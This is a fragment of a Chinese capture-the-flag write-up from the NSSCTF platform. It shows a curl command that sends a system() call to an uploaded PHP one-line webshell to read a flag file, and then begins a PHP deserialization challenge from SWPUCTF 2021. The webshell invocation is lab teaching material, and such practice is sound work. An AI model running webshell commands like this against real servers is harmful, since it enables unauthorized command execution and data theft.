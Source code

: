 ![1745335196584](image/NSS/1745335196584.png)

然后在bash中利用一句话木马

```
curl -X POST -d "cmd=system('cat /app/flag.php');" http://node7.anna.ns
sctf.cn:21624/upload/1.jpg
```

![1745335818568](image/NSS/1745335818568.png)

得到flag

# 27.[SWPUCTF 2021 新生赛]pop

查看源代码，发现是一个反序列化的题目
